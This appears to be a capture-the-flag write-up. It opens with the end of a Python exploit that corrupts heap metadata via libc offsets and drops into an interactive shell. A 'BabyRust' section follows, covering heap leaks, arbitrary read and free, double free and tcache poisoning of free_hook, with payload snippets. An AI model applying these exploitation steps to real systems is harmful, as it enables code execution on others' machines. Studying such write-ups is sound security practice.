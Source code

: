```python=
print hex(libc)

create(0,0x60,"a")
remove(0)
rename(0,p64(libc+0x3c4aed))
create(0,0x60,"a")
create(1,0x60,"\x00"*0x13+p64(libc+0xf02a4))
remove(0)
#input(hex(libc+0xf02a4)+":")
remove(0)

r.interactive()

```
### BabyRust
We were asked to pwn a rust program. Since the program is kind of complicated, lots of stuff were done by fuzzing/trial and error.

#### Vulnerability
With some fuzzing, we quickly found that we were able to leak the heap address by using the following payload:

```python
magic(1312) # send "1312" command
show()
# leak heap base
```

After that, we can also use the following payload to create an arbitrary read:

```python
edit("E", [addr, num2, 102, 103])
magic(1313)
magic(1314)
show()
# leak content @ addr
```

Also, by controlling `num2` in the above payload, we can free an arbitrary address. We can use this to create a double free situation.

#### Exploitation
We first leak the heap address and the libc address with the arbitrary read. 

After that, we planned to use the double free vulnerability to create a duplicate chunk in tcache @ 0x80, then use tcache poisoning to control `free_hook` and get the shell. To do this, we'll have to input our name with the address of `free_hook`. However, we found that this will trigger the "InvalidData, error: StringError("stream did not contain valid UTF-8")" error and failing our exploit.

It seems that the only way to overwrite `free_hook` is to control the value of `num1` ~ `num4` and overwrite it while the program assign those numbers to its data structure ( we'll call it magic box ). The size of the magic box is 0x40, so if we can create a chunk in tcache @ 0x40 and let it point to `free_hook`, later when the program create a new magic box and assign our input numbers, we'll be able to overwrite `free_hook` and get the shell. 
